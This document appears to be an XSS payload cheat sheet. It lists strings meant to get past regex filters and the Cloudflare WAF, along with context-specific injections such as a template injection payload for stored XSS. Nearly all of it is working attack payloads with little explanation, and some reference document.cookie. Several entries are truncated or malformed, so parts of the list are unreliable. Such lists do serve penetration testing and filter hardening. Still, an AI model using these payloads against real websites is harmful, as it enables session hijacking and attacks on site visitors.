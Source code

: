 
Regex Filter BYpass:
====================
	==""><h1 onclick=alert`1`

	""><img src=x onload=alert(1)>


Cloudflare Fileter Bypass:
==========================

	<Svg Only=1 OnLoad=confirm(1)>
	"><svg+svg+svg\/\/On+OnLoAd=confirm(1)>
	"><svg/onload=alert(1)>
	"><svg/on/onload=alert(1)>
	“><sv\u01234\g\u01235/on\u01236load=confirm(1)>
	"><sv\u01234\g+s\01235\vg...
	"><sv\u01234\g+s\01235\vg+\01236\svg
	\u01237\/ ----> \/\u01237\/\ ----> /\u01237\/ ----> /
	On\u01234\load ----> On\u01234\+OnLoAd ----> onload
	"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>
	“%3E%3Csvg onmouseover%3d”confirm(1"/%3E
	%22%3E%3Csvg%20onmouseover%3d%22confirm%26%230000000040document.domain)
	hello<svg on onload=(alert)(document.cookie)>
	%2522%2520onmouseover%253D%2522alert%25281%252 - ["onmouseover="alert(1)] double urlencode
	<svg onload=alert%26%230000000040"1")>
	

	

	


Other Bypass Techniques:
=======================
	When [">,alert] is filter/blocked use this:
	"autofocus+onfocus%3D"%26%230000106%26%230000097%26%230000118%26%230000097%26%230000115%26%230000099%26%230000114%26%230000105%26%230000112%26%230000116%26%230000058%26%230000097%26%230000108%26%230000101%26%230000114%26%230000116%26%230000040%26%230000039%26%230000088%26%230000083%26%230000083%26%230000039%26%230000041#

2-  Inside javascript val = ''
			'-alert(1)-'
	Inside Javascript string - filter single quote and backslach escaped
			\';alert(1);<!--

3-	Filter Inside Event handler:
		%26apos;);alert(1)//

4-  Double quote delimiter: filter only >  
		"autofocus%20onfocus="alert(1)

	Single quote delimiter: >
		'autofocus onfocus='alert(1)

	Stored XSS - 
	{{constructor.constructor('alert('XSS')')()}}    - For more check out: HackTricks - CSTI 


